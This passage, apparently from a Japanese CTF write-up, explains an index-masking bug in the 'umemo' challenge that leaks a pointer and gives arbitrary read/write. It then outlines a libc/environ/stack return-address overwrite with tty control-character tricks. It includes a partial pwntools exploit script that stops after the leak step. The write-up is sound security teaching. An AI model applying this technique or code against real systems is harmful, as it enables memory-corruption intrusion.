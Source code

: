 ```c
}
```

ここでは該当する中間ページテーブルをさらに、`(pgoff >> MEMOPAGE_TABLE_SHIFT) & ((1<<MEMOPAGE_TABLE_SHIFT)-1)`とシフトしてマスクして決定して参照します。ところが実際に値は、`(1<<MEMOPAGE_TABLE_SHIFT)-1`は`0x1ff`のところ、`(pgoff >> MEMOPAGE_TABLE_SHIFT)`は`0x200`とはみ出ているので、論理積で0になってしまいます。

つまり、マップされた領域をはみ出すように、オフセットを大きくして読み書きの指示を出すことで、オフセット0の中間ページテーブルが選択され、結果memosのアドレスが格納されているポインタが返ってきます。

このポインタからメモのアドレスがリークし、同様にオフセットを指定して書き換えることで、ユーザランドのAAR/Wになります。

1. write_fixedを使って、スペースを登録する
2. read_freespaceを使って、マップされた領域の端ギリギリのところをオフセットにして、オフセット0を読む。ここで1.で登録したスペースのアドレスが出てくる。
3. write_freespaceを2.と同様のオフセットとサイズを利用して、オフセット0部の書き込みを行う。
4. これで、read_fixedを使って、3.で指定アドレスが読めて、writeで同様に書き込める。

以降は、リークしたポインタをたどってデバイス→隣接するlibc→environとつないでスタックアドレスをリークし、リターンアドレスを書き換えてスタックに向けて制御を取ります。

あとは書き込むだけなのですが、ttyとの直接のやりとりになっていて、送った文字は制御文字として扱われてしまいます。具体的には`7f`がbackspaceとして扱われ、`7f`を入れることができません。（ttyの拡張が有効になっている場合は、`167f`と送ると上手くいくケースがありますが、これも今回は使えませんでした。）

一方で`04`はctrl+Dとして扱われ、入力を途中で切ることができます。今回はこちらは使えるので、これを利用して`7f`が書かれているところはそのままにして、ポインタを一部書き換えるようにします。

```python
def exploit_umemo(r):
    # helper functions for pwning umemo
    def switch_fixed():
        r.sendlineafter(b'\n> ', b'1')

    def switch_freespace():
        r.sendlineafter(b'\n> ', b'2')

    def read_fixed(idx):
        r.sendlineafter(b'\nM> ', b'1')
        r.sendlineafter(b': ', str(idx).encode())

    def write_fixed(idx, data):
        r.sendlineafter(b'\nM> ', b'2')
        r.sendlineafter(b': ', str(idx).encode())
        r.sendafter(b': ', data)

    def back():
        r.sendlineafter(b'> ', b'0')

    def read_freespace(offset, size):
        r.sendlineafter(b'\nS> ', b'1')
        r.sendlineafter(b': ', str(offset).encode())
        r.sendlineafter(b': ', str(size).encode())

    def write_freespace(offset, size, data):
        r.sendlineafter(b'\nS> ', b'2')
        r.sendlineafter(b': ', str(offset).encode())
        r.sendlineafter(b': ', str(size).encode())
        r.sendafter(b': ', data)

    switch_fixed()
    write_fixed(0, b'AAAABBBB\x04')
    back()
    switch_freespace()
    read_freespace(0x3fffeff8, 0x400)
    r.recvuntil(b'Output: ')
    binleak = b''
    while len(binleak) < 0x10:
        binleak += r.recv(1)
    leak = u64(binleak[8:])
    #print(f'leak: 0x{leak:x}')
```